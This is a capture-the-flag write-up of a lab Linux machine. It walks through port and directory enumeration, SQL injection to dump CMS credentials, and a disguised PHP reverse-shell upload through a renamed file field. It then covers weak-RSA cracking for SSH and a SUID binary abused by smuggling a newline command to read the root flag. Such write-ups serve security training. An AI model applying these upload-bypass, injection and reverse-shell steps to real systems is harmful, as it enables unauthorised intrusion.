---
search:
  exclude: true
---
# Charon Writeup

## Introduction :

Charon is a hard linux box released back in july 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/10 ] [~]
    → sudo nmap -vvv -sTU -p- 10.10.10.31 --max-retries 0 -Pn --min-rate=500 | grep Discovered
    [sudo] password for nothing:
    Discovered open port 22/tcp on 10.10.10.31
    Discovered open port 80/tcp on 10.10.10.31
    
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/10 ] [~]
    → nmap -sCV -p22,80 10.10.10.31
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 18:44 BST
    Nmap scan report for 10.10.10.31
    Host is up (0.027s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 09:c7:fb:a2:4b:53:1a:7a:f3:30:5e:b8:6e:ec:83:ee (RSA)
    |   256 97:e0:ba:96:17:d4:a1:bb:32:24:f4:e5:15:b4:8a:ec (ECDSA)
    |_  256 e8:9e:0b:1c:e7:2d:b6:c9:68:46:7c:b3:32:ea:e9:ef (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Frozen Yogurt Shop
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 7.89 seconds
    
    

## **Part 2 : Getting User Access**

our nmap scan picked up port 80 so let's investigate it:

    
    
    [ 10.10.14.11/23 ] [ /dev/pts/10 ] [~]
    → nikto -h http://10.10.10.31/
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.10.31
    + Target Hostname:    10.10.10.31
    + Target Port:        80
    + Start Time:         2020-08-08 18:46:07 (GMT1)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.18 (Ubuntu)
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + IP address found in the 'location' header. The IP is "127.0.1.1".
    + OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
    + Server may leak inodes via ETags, header found with file /, inode: 9f2, size: 552d7084393f2, mtime: gzip
    + Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
    + Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
    + OSVDB-3233: /icons/README: Apache default file found.
    + 7863 requests: 0 error(s) and 9 item(s) reported on remote host
    + End Time:           2020-08-08 18:51:23 (GMT1) (316 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested
    

` charo

Doesn't look like there's man things here for us to make use of, so let's use gobuster
    
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/11 ] [~]
    → gobuster dir -u http://10.10.10.31/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x "txt,php,html,js,xml,pdf"
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.31/
    [+] Threads:        50
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Extensions:     php,html,js,xml,pdf,txt
    [+] Timeout:        10s
    ===============================================================
    2020/08/08 18:50:04 Starting gobuster
    ===============================================================
    /about.html (Status: 200)
    /index.md (Status: 200)
    /product.html (Status: 200)
    /contact.html (Status: 200)
    /images (Status: 301)
    /blog.html (Status: 200)
    /css (Status: 301)
    /js (Status: 301)
    /include (Status: 301)
    /fonts (Status: 301)
    /cmsdata (Status: 301)
    /server-status (Status: 403)
    ===============================================================
    2020/08/08 19:09:12 Finished
    ===============================================================
    
    

the idea here was to run gobuster again into the /cmsdata directory in order to find the login.php webpage:
    
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/11 ] [~]
    → gobuster dir -u http://10.10.10.31/cmsdata/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.
    txt -t 50 -x "txt,php,html,js,xml,pdf"
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.31/cmsdata/
    [+] Threads:        50
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Extensions:     txt,php,html,js,xml,pdf
    [+] Timeout:        10s
    ===============================================================
    2020/08/08 19:13:49 Starting gobuster
    ===============================================================
    /images (Status: 301)
    /scripts (Status: 301)
    /menu.php (Status: 302)
    /login.php (Status: 200)
    /upload.php (Status: 302)
    /css (Status: 301)
    /js (Status: 301)
    /include (Status: 301)
    /forgot.php (Status: 200)
    Progress: 89237 / 220561 (40.46%)^C
    [!] Keyboard interrupt detected, terminating.
    ===============================================================
    2020/08/08 19:21:32 Finished
    ===============================================================
    
    

` 

So here we on /cmsdata/login.php we stumble upon a SuperCMS login php page. There isn't much on the login page itself so we take a look at the "forgot password?" page and inspect the request with burpsuite:

 

Here we get a generic error that email isn't found, But let's test out and see if we can trigger a SQL injection:

Here we see something is up, let's poke at it further by using the "-- -" string to comment out the query , which should remove the error, and verify that we are dealing with a SQL injection:

Now that we know it is a SQL injection, we can test it further:

 

So now we know the 4th field takes in a string, which is an email,so let's poke around the sql injection further:

and we found the supercms database! Now let's find the name of the table containing those emails

So far we know we are in the supercms database, and looking at the table called "license", But with further enumeration we find another table called "operators":

So now we have the name of the tables, we will enumerate the columns:

  

Now we know the table Operators contains the columns __username_ and __password_



So now let's just dump the usernames and passwords:

 

And we found credentials ! **super_cms_adm:0b0689ba94f94533400f4decd87fa260** however the password is hashed, so we use hash-identifier to figure out which format it is :
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~]
    → hash-identifier
       #########################################################################
       #     __  __                     __           ______    _____           #
       #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
       #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
       #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
       #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
       #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
       #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
       #                                                             By Zion3R #
       #                                                    www.Blackploit.com #
       #                                                   Root@Blackploit.com #
       #########################################################################
    --------------------------------------------------
     HASH: 0b0689ba94f94533400f4decd87fa260
    
    Possible Hashs:
    [+] MD5
    [+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
    

And we see that it is a md5 hash, we can use john or hashcat in conjunction with wordlists, but for this example we'll just use an online hash cracker: https://www.onlinehashcrack.com

 

And finally we have the credentials **super_cms_adm:tamarro** So we use them to login:

Once logged in we see a big red flag, we are able to upload an image, so we'll try to inject a reverse shell there: 

So here let's make our own simple php reverse shell:

But when we upload it we see that we need to make sure the file extension is correct:

So let's disguise our reverse php shell as a gif, making sure the magicbytes are also correct:

 

Here we see 2 interesting things once we upload our reverse php gif : we get the **relative** path of our gif : ../images/nothing.php.gif and a hidden input with a b64 name

Unsure as to what to do with that, we'll just try to access our reverse php gif and get a reverse shell:

 

Now that we see our reverse php gif not working, that's where we know we have to make use of this "testfile1" which is a new imput field to the form named testfile1 and setting the value to writeup.php, causes the page to rename the uploaded file to the value specified. So let's intercept the upload.php webpage itself in bursuite, in order to modify the php file itself,in order to have a the new "testfile1" input field:

Now that we have the request, we do Action > Do intercept > Response to this Request and then just hit "forward"



Then we make sure the other input field is uncommented and named properly and forward the request:



This allows us to submit a gif file to then rename it to a php file, so let's submit it and browse to it: 

It uploads successfully so let's browse to it at **http://10.10.10.31/images/nothing.php** :

And there we have a reverse shell as www-data ! now let's poke around but before that let's upgrade our reverse shell to a fully interactive one:
    
    
    	www-data@charon:/var/www/html/freeeze/images$ which python
    	which python
    	/usr/bin/python
    

Python is there for us to use, so let's use the pty module to spawn a TTY shell:
    
    
    	www-data@charon:/var/www/html/freeeze/images$ python -c 'import pty;pty.spawn("/bin/bash")'
    	www-data@charon:/var/www/html/freeeze/images$ ^Z
    	[1]+  Stopped                 nc -lvnp 9001
    	
    	[ 10.10.14.8/23 ] [ /dev/pts/16 ] [~]
    	→ stty raw -echo
    	
    	[ 10.10.14.8/23 ] [ /dev/pts/16 ] [~]
    	→ nc -lvnp 9001
    	
    	www-data@charon:/var/www/html/freeeze/images$
    	www-data@charon:/var/www/html/freeeze/images$
    	www-data@charon:/var/www/html/freeeze/images$
    

once we got the tty shell from python, we background our netcat process with CTRL+Z then type in stty raw -echo and then **fg** to get back into our netcat reverse shell and we now have our fully interactive reverse shell:
    
    
    www-data@charon:/var/www/html/freeeze/images$ ls -lash
    ls -lash
    total 904K
    4.0K drwxr-xrwx 3 root     root     4.0K Aug 13 14:43 .
    4.0K drwxr-xrwx 8 root     root     4.0K Jun 26  2017 ..
     72K -rwxr-xr-x 1 root     root      72K Dec 23  2016 berries.png
    4.0K -rwxr-xr-x 1 root     root     1.2K Dec 23  2016 bg-border.gif
     64K -rwxr-xr-x 1 root     root      62K Dec 23  2016 bg-header-about.jpg
    152K -rwxr-xr-x 1 root     root     152K Dec 23  2016 bg-home.jpg
    4.0K -rwxr-xr-x 1 root     root      994 Dec 23  2016 bg-transparent.png
     20K -rwxr-xr-x 1 root     root      19K Dec 23  2016 blackberry.jpg
     20K -rwxr-xr-x 1 root     root      19K Dec 23  2016 blueberry.jpg
     20K -rwxr-xr-x 1 root     root      19K Dec 23  2016 cantaloupe.jpg
    4.0K -rwxr-xr-x 1 root     root     2.7K Dec 23  2016 check-in.png
    4.0K -rwxr-xr-x 1 root     root     3.7K Jun 23  2017 f.png
     24K -rwxr-xr-x 1 root     root      21K Dec 23  2016 grapes.jpg
     24K -rwxr-xr-x 1 root     root      21K Dec 23  2016 green-apple.jpg
     16K -rwxr-xr-x 1 root     root      13K Dec 23  2016 icons.png
     20K -rwxr-xr-x 1 root     root      17K Dec 23  2016 kiwi.jpg
    8.0K -rwxr-xr-x 1 root     root     7.1K Jun 23  2017 logo.png
     20K -rwxr-xr-x 1 root     root      18K Dec 23  2016 mango.jpg
     60K -rwxr-xr-x 1 root     root      60K Dec 23  2016 map.jpg
    4.0K drwxr-xr-x 2 root     root     4.0K Dec 23  2016 mobile
     84K -rwxr-xr-x 1 root     root      82K Dec 23  2016 new-chills.png
    4.0K -rw-r--r-- 1 www-data www-data   83 Aug 13 14:43 nothing.php
    4.0K -rw-r--r-- 1 www-data www-data   83 Aug 13 13:56 nothing.php.gif
     84K -rwxr-xr-x 1 root     root      82K Dec 23  2016 on-diet.png
     20K -rwxr-xr-x 1 root     root      20K Dec 23  2016 pineapple.jpg
    4.0K -rw-r--r-- 1 www-data www-data  103 Jun 26  2017 small.png
     20K -rwxr-xr-x 1 root     root      20K Dec 23  2016 strawberry.jpg
    116K -rwxr-xr-x 1 root     root     116K Dec 23  2016 strwberry-delights.jpg
     20K -rwxr-xr-x 1 root     root      20K Dec 23  2016 yogurt.jpg
    
    
     www-data@charon:/var/www/html/freeeze/images$ cd /home/
     www-data@charon:/home$ ls
     decoder
     www-data@charon:/home$ cd decoder/
     www-data@charon:/home/decoder$ ls -lash
     total 40K
     4.0K drwxr-xr-x 3 decoder freeeze 4.0K Jun 26  2017 .
     4.0K drwxr-xr-x 3 root    root    4.0K Jun 23  2017 ..
     4.0K -rw-r--r-- 1 decoder freeeze  220 Sep  1  2015 .bash_logout
     4.0K -rw-r--r-- 1 decoder freeeze 3.7K Jun 25  2017 .bashrc
     4.0K drwx------ 2 decoder freeeze 4.0K Jun 23  2017 .cache
     4.0K -rw-r--r-- 1 decoder freeeze  654 Jun 25  2017 .profile
     4.0K -rw------- 1 decoder freeeze  601 Jun 26  2017 .viminfo
     4.0K -rw-r--r-- 1 decoder freeeze  138 Jun 23  2017 decoder.pub
     4.0K -rw-r--r-- 1 decoder freeeze   32 Jun 23  2017 pass.crypt
     4.0K -r-------- 1 decoder freeeze   33 Jun 23  2017 user.txt
     www-data@charon:/home/decoder$ cat user.txt
     cat: user.txt: Permission denied
     www-data@charon:/home/decoder$ file decoder.pub && file pass.crypt
     decoder.pub: ASCII text
     pass.crypt: data
     www-data@charon:/home/decoder$
    
    

after poking around a bit we found out that we (www-data) couldn't read the user flag, but we have access to decoder.pub and pass.crypt
    
    
    www-data@charon:/home/decoder$ cat decoder.pub
    -----BEGIN PUBLIC KEY-----
    MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
    mI9wJizmFJhrAgMBAAE=
    -----END PUBLIC KEY-----
    
    www-data@charon:/home/decoder$ cat pass.crypt
    2OSb"eWgTo7I
    
    

So let's just save both locally (it's easy since they are small files, you can just copy paste them into nano)
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [~/_HTB/Charon]
    → ls
    nothing.php.gif
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [~/_HTB/Charon]
    → wget http://10.10.10.31:9999/decoder.pub
    --2020-08-13 15:50:36--  http://10.10.10.31:9999/decoder.pub
    Connecting to 10.10.10.31:9999... ^C
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [~/_HTB/Charon]
    → nano decoder.pub
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [~/_HTB/Charon]
    → nano pass.crypt
    
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [~/_HTB/Charon]
    → ls -lash
    total 24K
    4.0K drwxr-xr-x 2 nothing nothing 4.0K Aug 13 15:52 .
    4.0K drwxr-xr-x 4 nothing nothing 4.0K Aug 13 14:34 ..
    4.0K -rw-r--r-- 1 nothing nothing  138 Aug 13 15:51 decoder.pub
    4.0K -rw-r--r-- 1 nothing nothing   83 Aug 13 15:19 nothing.php.gif
    4.0K -rw-r--r-- 1 nothing nothing 1.0K Aug 13 15:18 .nothing.php.gif.swp
    4.0K -rw-r--r-- 1 nothing nothing   13 Aug 13 15:52 pass.crypt
    
    

Here we'll crack the weak RSA key using RsaCtfTool.py:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/18 ] [~/_HTB/Charon]
    →/opt/RsaCtfTool/RsaCtfTool.py --publickey decoder.pub --uncipher pass.crypt
    [+] Clear text : nevermindthebollocks
    

And we have decoder's password! so let's login via ssh as the decoder user:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/18 ] [~/_HTB/Charon]
    → ssh decoder@10.10.10.31
    The authenticity of host '10.10.10.31 (10.10.10.31)' can't be established.
    ECDSA key fingerprint is SHA256:V1uA1jbcL+1r8UE/foqVjb2u9rSiGTP6EB1Q374Zp9o.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.31' (ECDSA) to the list of known hosts.
    decoder@10.10.10.31's password:
    Permission denied, please try again.
    decoder@10.10.10.31's password:
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    34 packages can be updated.
    23 updates are security updates.
    
    
    $ id
    uid=1001(decoder) gid=1001(freeeze) groups=1001(freeeze)
    $ cat user.txt
    0fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the user flag.

## **Part 3 : Getting Root Access**

To be able to read the root flag, we first need to privesc, so we find the files with the SUID bit set and find a file called supershell in /usr/local/bin directory
    
    
    $ find / -perm -4000 2>/dev/null
    **/usr/local/bin/supershell**
    /usr/lib/openssh/ssh-keysign
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/eject/dmcrypt-get-device
    /usr/bin/pkexec
    /usr/bin/sudo
    /usr/bin/chfn
    /usr/bin/newgrp
    /usr/bin/gpasswd
    /usr/bin/chsh
    /usr/bin/passwd
    /usr/bin/at
    /usr/bin/newgidmap
    /usr/bin/newuidmap
    /bin/ntfs-3g
    /bin/ping6
    /bin/mount
    /bin/fusermount
    /bin/umount
    /bin/ping
    /bin/su
    

When we run this binary we find that we can run any shell command using it. So we can use it to open the root.txt file:
    
    
    
    $ supershell "/bin/ls$/
    > cat /root/root.txt
    > "
    Supershell (very beta)
    ++[/bin/ls$/
    cat /root/root.txt
    ]
    sh: 1: /bin/ls$/: not found
    c5XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to read the root flag.

## **Conclusion**

Here we can see the progress graph :



